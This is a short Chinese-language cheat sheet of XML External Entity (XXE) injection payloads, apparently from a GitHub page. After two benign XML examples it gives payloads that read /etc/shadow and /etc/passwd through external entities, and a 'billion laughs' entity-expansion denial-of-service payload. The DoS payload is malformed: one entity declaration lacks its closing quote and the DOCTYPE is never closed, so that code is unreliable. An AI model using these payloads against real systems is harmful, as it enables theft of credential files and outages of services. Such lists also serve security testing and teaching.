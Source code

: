 

#### 更多pyload

XXE：基本 XML 示例

```xml-dtd
<!--?xml version="1.0" ?-->
<userInfo>
 <firstName>John</firstName>
 <lastName>Doe</lastName>
</userInfo>
```

XXE：实体示例

```xml-dtd
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

##### XXE：本地读文件

```xml-dtd
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>
```

##### XXE：DOS

```xml-dtd
<!--?xml version="1.0" ?-->
<!DOCTYPE lolz [<!ENTITY lol "lol"><!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
<tag>&lol9;</tag>
能发送3.9GB数据流量
```

##### XXE：本地文件包含示例

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>
```
